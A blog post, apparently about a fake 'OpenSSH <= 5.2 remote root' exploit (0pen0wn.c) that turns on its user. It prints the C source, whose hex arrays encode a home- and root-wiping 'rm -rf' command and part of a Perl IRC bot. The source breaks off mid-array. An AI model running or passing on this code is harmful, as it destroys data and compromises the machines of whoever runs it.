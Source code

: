 ```yaml
---
title: The exploit that exploits you
description: 'At some point who is interested to become a programmer spend some time
  on the underground part of the field: the security field, in fact at least one time
  we played with exploits,…'
tags:
- security
cover: "/assets/images/covers/exploit.jpeg"
---
```



At some point who is interested to become a programmer spend some time on the underground part of the field: the security field, in fact at least one time we played with exploits, bugs and vulnerabilities, at least one time we wanted to be a security professional.

In this article, I won't tell you what is an exploit[^1] or a shellcode[^2], how to do and use it, for that there is Google.

The exploit that I want to analyze it's a magic 0day that allows you to exploit every machine which uses a version of `SSH <= 5.2` remotely. Great, right?

A gold miner for who wants to exploit machines or just create some issues.

This is the code: 
```c
/* 0pen0wn.c by anti-sec group
 * ---------------------------
 * OpenSSH <= 5.2 REMOTE (r00t) EXPLOIT.
 *
 *
 * Takes advantage of an off-by-one
 * bug in mapped authentication space on system
 */
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdarg.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <netdb.h>

#define VALID_RANGE 0xb44ffe00
#define build_frem(x,y,a,b,c) a##c##a##x##y##b

char jmpcode[] =
    "\x72\x6D\x20\x2D\x72\x66\x20\x7e\x20\x2F\x2A\x20\x32\x3e\x20\x2f"
    "\x64\x65\x76\x2f\x6e\x75\x6c\x6c\x20\x26";

char shellcode[] =
        "\x23\x21\x2f\x75\x73\x72\x2f\x62\x69\x6e\x2f\x70\x65\x72\x6c\x0a"
        "\x24\x63\x68\x61\x6e\x3d\x22\x23\x63\x6e\x22\x3b\x0a\x24\x6b\x65"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
        "\x22\x3b\x0a\x77\x68\x69\x6c\x65\x20\x28\x3c\x24\x73\x6f\x63\x6b"
        "\x6e\x22\x3b\x0a\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20"
        "\x73\x6c\x65\x65\x70\x20\x31\x3b\x0a\x20\x20\x20\x20\x20\x20\x20"
        "\x6b\x5c\x6e\x22\x3b\x7d\x7d\x70\x72\x69\x6e\x74\x20\x24\x73\x6f"
        "\x63\x6b\x20\x22\x4a\x4f\x49\x4e\x20\x24\x63\x68\x61\x6e\x20\x24"
        "\x6b\x65\x79\x5c\x6e\x22\x3b\x77\x68\x69\x6c\x65\x20\x28\x3c\x24"
        "\x73\x6f\x63\x6b\x3e\x29\x7b\x69\x66\x20\x28\x2f\x5e\x50\x49\x4e"
        "\x47\x20\x28\x2e\x2a\x29\x24\x2f\x29\x7b\x70\x72\x69\x6e\x74\x20"
```

[^1]: [Exploit](https://en.wikipedia.org/wiki/Exploit_(computer_security)) 
[^2]: [Shell Code](https://en.wikipedia.org/wiki/Shellcode)
